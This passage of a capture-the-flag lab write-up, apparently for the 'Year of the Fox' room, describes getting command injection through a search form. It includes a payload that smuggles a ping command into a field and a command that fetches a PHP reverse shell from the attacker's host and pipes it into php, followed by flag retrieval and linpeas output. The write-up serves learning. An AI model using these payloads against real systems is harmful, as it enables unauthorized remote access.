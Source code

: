 Now we can access the webpage: 'Rascal's Search System'. I tried to search something random and the page said 'file not found', i tried a `.` and got the files in the current directory:

```
creds2.txt
fox.txt
important-data.txt
```

The text box will delete `/` or any other 'bad' characters using javascript, i guess i can just bypass that making a POST request directly to `/assets/php/search.php`. I wrote a python script for it, and after a lot of time i got RCE: `\"; ping <ATACKER_IP>; \"`. Using `sudo tcpdump -i tun0 -n` i could check that the ping request arrived to my machine.


#### Reverse shell

Looks like the backend is filtering characters too so getting a reverse shell was a bit hard but after a while i got this payload to work:

```
"\"; wget -O - -q http://<ATACKER_IP>:8000/php-reverse-shell.php | php; \""
```

This will connect to my machine in the port 8000, get a php reverse shell and then pipe the php code into the `php` command. Using that i was able to get a shell.

To get the flag just:

```
www-data@year-of-the-fox:/$ cat /var/www/web-flag.txt
THM{*********************************}
```

And also i will get the files content we saw before:

```
creds2.txt
LF5GGMCNPJIXQWLKJEZFURCJGVMVOUJQJVLVE2CONVHGUTTKNBWVUV2WNNNFOSTLJVKFS6CNKRAX
UTT2MMZE4VCVGFMXUSLYLJCGGM22KRHGUTLNIZUE26S2NMFE6R2NGBHEIY32JVBUCZ2MKFXT2CQ=
```

The rest of the files are empty. By the way the file content looks like junk.

## Privesc

### User

After some digging, i decided to use `linpeas` and check if i can see something interesting. This is what caught my attention:

```
[+] Active Ports
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:22            0.0.0.0:*               LISTEN      -  <---                 
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::445                  :::*                    LISTEN      -                   
tcp6       0      0 :::139                  :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      - 

[+] Searching ssl/ssh files
ListenAddress 127.0.0.1 
```